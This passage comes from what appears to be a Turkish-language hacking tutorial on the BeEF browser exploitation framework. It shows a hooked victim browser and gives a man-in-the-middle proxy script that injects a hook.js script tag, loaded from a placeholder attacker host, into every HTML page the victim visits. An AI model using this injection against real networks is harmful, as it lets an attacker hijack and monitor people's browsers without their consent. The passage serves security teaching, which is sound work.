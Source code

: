 - Kali makinamızda çalışan Beef otomatik olarak oltaya takılan makinayı görüyor. Şu anda hedef browser'a karşı ciddi bir güç sahibiyiz. Browser kapanırsa gücümüzü kaybederiz!
![Beef Hooked](./assets/48-kali-hooked.png)

## JavaScript Enjeksiyonu
Peki illa hedefi bu siteye, adrese sokmak zorunda mıyız? Hayır. MITM tekniği kullanarak JS enjeksiyonu yapmayı görmüştük. Bu tekniği kullanarak Beef tarafından bize verile JavaScript'i `hook.js`'i enjekte edeceğiz. Aşağıda verilen JavaScript kodunu herhangi bir dosyaya kaydediyoruz. Ben `Desktop/my_code.js` olarak kaydettim. Bu JavaScript kodu ve MITM ile kullanıcı her siteye girdiğinde bu JavaScript'i ona enjete edeceğiz. Bu JavaScript'de bize Beef tarafından verilen JavaScript'i kullanıcının girdiği siteye enjekte edecek. Bu sayede hangi siteye girerse girsin Beef ile izleyebileceğiz
```
function onResponse(req, res) {
  if( res.ContentType.indexOf('text/html') == 0 ){
    var body = res.ReadBody();
    if( body.indexOf('</head>') != -1 ) {
      res.Body = body.replace( 
        '</head>', 
        '<script type="text/javascript" src="http://BEEF_HOOK_IP_ADRESINIZ:3000/hook.js"></script></head>' 
      ); 
    }
  }
}
```
